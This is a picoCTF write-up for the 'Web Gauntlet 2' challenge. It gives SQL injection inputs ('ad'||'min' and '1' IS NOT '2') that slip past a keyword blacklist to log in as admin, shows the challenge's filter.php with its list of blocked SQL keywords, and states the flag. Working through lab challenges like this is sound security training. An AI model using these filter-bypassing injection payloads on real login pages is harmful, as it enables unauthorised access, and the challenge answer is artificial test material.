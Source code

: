 
# PICOCTF - Web Gauntlet 2



### Description:
> This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:35178/ Filter: http://mercury.picoctf.net:35178/filter.php


### Solution:
The challenge provides us with a login page that requires `username` and `password`. After a few attempt of brute forcing, we can understand that the `username` must be admin.
However, the filter has excluded `admin` as an option for the `username`, so we need a way to bypass this.

We can use '||' to concatenate two parts of the `admin`, for example, `ad'||'min` to bypass this. The password is much easier, we only need to provide something that returns true without using the filter's words. My take is something like `1 ' IS NOT ' 2`.

Therefore, our input can be:
```
username: ad'||'min
password: 1' IS NOT '2
```

Using the above credentials, we will be greeted with the message `Congrats! You won! Check out filter.php`. Finally, we can go to http://mercury.picoctf.net:35178/filter.php to access our flag.

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
?>
```

If you can not access the flag even after completing the challenge, try reloading or clearing the cookie to get it.
## Flag

```
picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
```